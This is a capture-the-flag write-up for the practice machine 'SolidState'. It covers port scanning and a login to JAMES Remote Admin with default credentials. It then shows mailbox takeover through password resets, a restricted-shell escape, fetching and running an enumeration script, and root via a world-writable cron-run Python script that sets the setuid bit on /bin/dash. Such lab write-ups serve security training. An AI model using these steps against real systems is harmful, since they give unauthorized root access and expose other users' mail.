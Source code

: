 # SolidState

This is the write-up for the box SolidState that got retired at the 27th January 2018.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.51    solidstate.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/solidstate.nmap 10.10.10.51
```

```markdown
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey:
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp  open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.23 [10.10.14.23]),
80/tcp  open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp open  pop3    JAMES pop3d 2.3.2
119/tcp open  nntp    JAMES nntpd (posting ok)
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Full TCP port range scan:
```markdown
nmap -p- -T5 -o nmap/ss-allports.nmap 10.10.10.51
```

```markdown
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
110/tcp  open  pop3
119/tcp  open  nntp
4555/tcp open  rsip
```

Scanning for vulnerabilities on these services:
```markdown
nmap -p 22,25,80,110,119,4555 -sC -sV -o nmap/ss-vulns.nmap --script vuln 10.10.10.51
```

```markdown
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
25/tcp   open  smtp        JAMES smtpd 2.3.2
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| smtp-vuln-cve2010-4344:
|_  The SMTP server is not Exim: NOT VULNERABLE
|_sslv2-drown:
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| http-csrf:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.51
|   Found the following possible CSRF vulnerabilities:
(...)
110/tcp  open  pop3        JAMES pop3d 2.3.2
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown:
119/tcp  open  nntp        JAMES nntpd (posting ok)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown:
4555/tcp open  james-admin JAMES Remote Admin 2.3.2
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web page looks like a generic company website that offers security consulting services.
All the pages are HTML and there is a contact form that seems to do nothing after submitting.

## Checking JAMES Remote Admin (Port 4555)

When connecting to port 4555 with `nc`, it outputs **JAMES Remote Administration Tool 2.3.2** and wants us to enter a login ID and a password.
After trying out some default credentials, the login ID _root_ and the password _root_ is valid.
With the command `HELP` the tool shows what we can do.

```markdown
listusers

Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

It is possible to change the password of these users:
```markdown
setpassword mailadmin newpass1

Password for mailadmin reset
```

As some mail ports are open, lets try to access the mailbox of these users with any mail client such as _Evolution_.
After resetting the passwords of all users, only the user _mindy_ has an interesting email with the subject _"Your Access"_:
```markdown
Dear Mindy,

Here are your ssh credentials to access the system. Remember to reset your password after your first login.
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path.

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

The credentials work on SSH and we are logged in as _mindy_:
```markdown
ssh mindy@10.10.10.51
```

## Privilege Escalation

In the home folder there is a _bin_ folder but when trying to access it, it says _"-rbash: cd: restricted"_ which means that _mindy_ is in **restricted bash**. Looking at _/etc/passwd_ confirms that:
```markdown
james:x:1000:1000:james:/home/james/:/bin/bash
mindy:x:1001:1001:mindy:/home/mindy:/bin/rbash
```

To get out of it we can SSH into the box with a command:
```markdown
ssh mindy@10.10.10.51 bash
```

This will execute **bash** and the user is not restricted anymore so we can execute any command. Lets start any **Linux Enumeration script** to get an attack surface on the box:
```markdown
curl 10.10.10.51 -o LinEnum.sh

bash LinEnum.sh -t
```

After analyzing it, there is the file _/opt/tmp.py_ that has write and execute permissions for everyone.
The Python script just cleans the _/tmp_ directory. As it is writeable by anyone, we can put our own commands in there:
```python
#!/usr/bin/env python
import os
import sys
try:
     os.system('/usr/bin/touch /tmp/test')
except:
     sys.exit()
```

Saving this and waiting for a couple of minutes, a cronjob will execute this and create the file _/tmp/test_ that is owned by root.
Now change the script to set a **Setuid bit** on a binary that executes a shell, so we can execute it with root permissions.
```python
os.system('chmod 4755 /bin/dash')
```

After the cronjob runs the Setuid bit is set on _/bin/dash_ and we can execute `dash`.
This starts a shell in which the _effective user ID (EUID)_ is root and the box is done!

